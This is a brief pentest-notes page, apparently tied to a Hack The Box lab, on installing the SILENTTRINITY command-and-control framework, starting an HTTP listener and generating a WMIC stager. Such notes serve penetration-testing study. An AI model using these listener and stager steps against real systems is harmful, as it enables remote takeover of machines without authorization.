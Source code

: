 ## Installations

```
cd /opt
git clone https://github.com/byt3bl33d3r/SILENTTRINITY
apt-get install python3.7-dev python3-pip
cd SILENTTRINITY/Server/
python3.7 -m pip install -r requirements.txt
```

## Usage

Start HTTP listener:
```
ST (listeners) ≫ use http
ST (listeners)(http) ≫ set BindIP 10.10.14.10
ST (listeners)(http) ≫ start
[+] Listener 'http' started successfully!
```

Use WMIC stager:
```
ST (listeners)(http) ≫ stagers
ST (stagers) ≫ use wmic
ST (stagers)(wmic) ≫ generate http
[+] Generated stager to wmic.xsl
```

## References
- HTB - Jerry video - https://youtu.be/-O3SPrYhAMo​
